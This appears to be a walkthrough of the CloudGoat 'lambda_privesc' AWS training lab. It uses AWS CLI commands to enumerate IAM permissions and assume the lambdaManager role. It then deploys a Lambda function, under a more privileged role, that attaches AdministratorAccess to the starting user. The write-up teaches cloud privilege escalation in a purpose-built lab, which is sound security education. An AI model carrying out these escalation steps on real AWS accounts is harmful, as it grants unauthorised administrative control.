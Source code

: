 # Initial Enumeration
### 1. Configuring Credentials
After launching the scenario, you will be provided with an Access Key ID and Secret Access Key. Configure these as a profile with the AWS CLI. 

```bash 
aws configure --profile chris
``` 

### 2. Confirming Credentials
After setting up the profile, it's always a good idea to confirm the credentials. You can do this with the following command: 

```bash
aws sts get-caller-identity --profile chris
```
This should provide you with the UserId, Account #, and ARN for the starting user. 


### 3. Checking Our Permissions 
Now that we have confirmed initial access, we want to see which permissions our user has in the AWS environment. One way we can do this is by seeing if our user has any policies attached or assigned to them. In AWS, a policy is essentially a JSON document that defines what actions (e.g., read, write) are allowed or denied on which resources (e.g., an S3 bucket, an EC2 instance). Policies can be attached to IAM users, groups, and roles to control their permissions and enforce security boundaries.

#### Inline Policies
Let's first check for inline policies. Inline policies are AWS IAM policies that are embedded directly into a single IAM user, group, or role. Unlike managed policies (which are standalone and can be attached to multiple entities), inline policies exist only for the specific entity they are attached to, so they provide a unique set of permissions that are tightly coupled to that one user, group, or role.

```bash
aws iam list-user-policies --user-name chris-<cloudgoat_id> --profile chris
```

#### Managed Policies
We do not have any inline policies. Let's check for managed policies. Managed policies are standalone IAM policies that are not embedded directly into a single entity. They can be created and administered either by AWS (AWS-managed policies) or by customers themselves (customer-managed policies). These policies can be attached to multiple users, groups, or roles, making them easier to maintain and reuse across different entities in your AWS environment.

```bash
aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile chris
```
Great, we found a policy! 

#### Policy Versions 
Policy versions let you keep multiple revisions of the same managed policy. You can store up to five versions of a policy at a time, with only one being the default (active) version. This makes it easier to revert to an older version if you need to undo a change or troubleshoot an issue.

When performing a penetration test or looking for privilege escalation paths, it’s important to inspect all versions of a policy because a non-default (inactive) version might contain broader or more permissive privileges than the currently active one. 

Let's list all the policy versions for this policy: 

```bash
aws iam list-policy-versions --policy-arn [Policy ARN] --profile chris
```

There is only only one version - v1. Let's list the specifics of this policy to see what we have access to. 
```bash
aws iam get-policy-version --policy-arn [Policy ARN] --version-id v1 --profile chris
```
This shows us that our user has access to IAM resources and the ability to assume roles. 

### 4. Hunting for Roles
Since we have the ability to list IAM resources and assume roles, we should see what roles are in the account (and hopefully we can assume one of them!) 

```bash
aws iam list-roles --profile chris
``` 
There is a cg-lambdaManager role able to be assumed by our user. This is due to the "Allow" in place for our user's ARN. 

To assume a role in AWS means to temporarily take on the access permissions associated with that role. It’s a way for an AWS user or service to gain credentials that allow different or expanded permissions, without permanently attaching those permissions to the primary identity.
```json
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::703671921227:user/chris-lambda_privesc_cgidydajq393qx"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
```
### 5. Assuming a New Role 


```bash
aws sts get-caller-identity

aws configure --profile Chris

aws iam list-user-policies --user-name chris-<cloudgoat_id> --profile Chris

aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris

aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris
```

Our user has permissions to view IAM resources as well as assuming roles.

```bash
aws iam list-roles --profile Chris

aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris

aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris

aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris
```

The role grants permissions manage Lambda functions & pass roles that they can use. Assuming the role grants us its permissions.

```bash
aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris
```

Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials` as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

**Note**: The name of the file needs to be `lambda_function.py`.

````py
import boto3

def lambda_handler(event, context):
	client = boto3.client('iam')

	response = client.attach_user_policy(
		UserName = 'chris-<cloudgoat_id>',
		PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
	)

	return response
````

Create the function and invoke it to grant our user admin permissions.

```bash
zip -r lambda_function.py.zip lambda_function.py

aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager

aws lambda invoke --function-name admin_function out.txt --profile lambdaManager

aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris
```
